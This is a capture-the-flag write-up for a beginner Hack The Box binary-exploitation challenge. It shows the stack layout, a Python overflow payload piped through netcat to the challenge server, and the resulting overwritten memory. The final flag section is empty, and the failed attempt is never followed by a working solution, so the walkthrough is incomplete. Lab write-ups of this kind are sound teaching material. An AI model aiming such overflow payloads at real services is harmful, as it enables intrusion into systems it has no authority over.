

# HTB — Getting Started (Pwn)



## Description

This challenge introduces the basics of binary exploitation by demonstrating how a buffer overflow can overwrite adjacent values on the stack.

## Tools Used

- Terminal
- `file`
- `strings`
- `objdump`
- `Python 3`
- `netcat` (`nc`)

## 1. Extract the Challenge Files

```bash
cd ~/Downloads
unzip pwn_getting_started.zip
cd challenge
```

Inspect the binary:

```bash
file gs
strings -a gs
objdump -d -M intel gs | less
```

These commands help identify the binary type, readable strings, and assembly instructions.

## 2. Connect to the Remote Challenge

```bash
nc 154.57.164.81 44638
```

The program displays a stack layout and asks for input.

## 3. Understand the Stack Layout

The challenge shows a 32-byte buffer followed by an alignment slot and a target value.

| Stack component | Offset from buffer |
|---|---:|
| Buffer | 0–31 bytes |
| Alignment slot | 32–39 bytes |
| Target | 40–47 bytes |
| Saved RBP | 48–55 bytes |
| Return address | 56–63 bytes |

The target initially contains:

```text
0x00000000deadbeef
```

The goal is to understand how input can overwrite memory beyond the buffer.

## 4. Test the Buffer Overflow

I first sent this payload:

```bash
python3 -c 'print("A"*32 + "B"*8 + "C"*8)' | nc 154.57.164.81 44638
```

The output showed:

```text
0x4141414141414141  <- Buffer
0x4242424242424242  <- Alignment
0x4343434343434343  <- Target
```

This confirmed that the input overwrote the buffer, alignment slot, and target. However, the program returned `[-] You failed!` because the target contained the wrong value.

## 5. Read the Flag

The challenge displayed the following flag in its output:


## Key Takeaways

- A buffer overflow occurs when input exceeds the intended buffer size.
- Stack memory can contain local variables, alignment data, saved frame pointers, and return addresses.
- Carefully counting bytes is essential when crafting an exploit.
- Little-endian systems store the least significant byte first.
- Overwriting a target does not guarantee success; its value must satisfy the program's condition.

`
